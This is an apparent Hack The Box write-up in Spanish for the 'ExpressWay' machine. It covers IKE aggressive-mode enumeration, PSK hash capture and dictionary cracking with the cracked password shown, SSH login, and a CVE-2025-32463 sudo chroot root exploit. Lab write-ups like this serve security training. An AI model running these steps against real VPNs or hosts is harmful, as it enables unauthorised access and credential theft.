


# ExpressWay

Dificultad: Fácil 

Host: Windows 

## Scan Nmap 

Ejecutamos los siguientes comandos para escanear los puertos abiertos UDP:

``` bash
ip= <Host IP> 

sudo nmap $ip -sU --top-ports 100
```

Resultados: 




## Puerto 500: ISAKMP 

Isakmp es un protocolo diseñado para la autenticación y el intercambio de claves de IPsec, que se gestiona mediante IKE (Internet Key Exchange). Este proceso se realiza en distintas fases:

Fase 1: Se crea un canal seguro entre dos nodos mediante una clave compartida PSK o certificados. 


Fase 1.5: Fase no obligatoria de autenticación extendida, que verifica la identidad del usuario mediante un username y una contraseña. 


Fase 2: Se ejecutan componentes como el ESP para el encapsulado o el AH para la autenticación de la cabecera de los datos. Se busca garantizar la confidencialidad y mejorar la seguridad. 

Podemos escanear un host en busca de este servicio en el puerto 500 con el siguiente comando de nmap:

``` bash
sudo nmap -sU -p 500 --script ike-version $ip

```

## IKE Exploitation 
[Referencia utilizada](https://angelica.gitbook.io/hacktricks/network-services-pentesting/ipsec-ike-vpn-pentesting)

``` bash
ike-scan expressway.htb

ike-scan -A expressway.htb

Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.11.87     Aggressive Mode Handshake returned HDR=(CKY-R=490e40bb2eb5e02c) SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800) KeyExchange(128 bytes) Nonce(32 bytes) ID(Type=ID_USER_FQDN, Value=ike@expressway.htb) VID=09002689dfd6b712 (XAUTH) VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0) Hash(20 bytes)

Ending ike-scan 1.9.6: 1 hosts scanned in 0.185 seconds (5.40 hosts/sec).  1 returned handshake; 0 returned notify

```

Con este scan, encontramos una id válida: ike@expressway.htb 

Podemos utilizar la herramienta `psk-crack` para conseguir el hash del usuario ike en el host, y luego utilizar john para obtener la contraseña. 

``` bash 
sudo ike-scan --id=ike@expressway.htb -A --pskcrack=hash.txt expressway.htb
john hash.txt 

<Alternativa> 
psk-crack -d /usr/share/wordlists/rockyou.txt hash.txt

Starting psk-crack [ike-scan 1.9.6] (http://www.nta-monitor.com/tools/ike-scan/)
Running in dictionary cracking mode
key "freakingrockstarontheroad" matches SHA1 hash 7fbcda29bf5bd069bbc80a386eb331d0fbd8c07e
Ending psk-crack: 8045040 iterations in 4.873 seconds (1651002.57 iterations/sec)
```

Obtenemos la credencial para el usuario encontrado, `ike:freakingrockstarontheroad`

## User Flag

Obtenido el usuario y contraseña, podemos conectarnos por ssh y obtener la user flag. 

``` bash 
ssh ike@expressway.htb
freakingrockstarontheroad

ike@expressway:~$ ls
linpeas.sh  s.sh  user.txt
ike@expressway:~$ cat user.txt
<contenido de la flag> 
```

## Escalada de privilegios 
Podemos utilizar linpeas cargándolo con un servidor HTTP, en el apartado de SUID vamos a encontrar una posible vulnerabilidad en el binario `sudo`




## CVE-2025-32463 & Root Flag 
[Referencia CVE](https://www.elastic.co/guide/en/security/8.19/potential-cve-2025-32463-sudo-chroot-execution-attempt.html)
[Link al exploit](https://github.com/kh4sh3i/CVE-2025-32463)

Una mala configuración de `sudo` permite a un usuario local escalar a root manipulando el uid con este exploit. 

``` bash 
ike@expressway:/tmp$ nano script.sh <Escribimos el exploit> 
ike@expressway:/tmp$ chmod +x script.sh 
ike@expressway:/tmp$ ./script.sh 
woot!
root@expressway:/# cat /root/root.txt
<Contenido de la flag> 

```

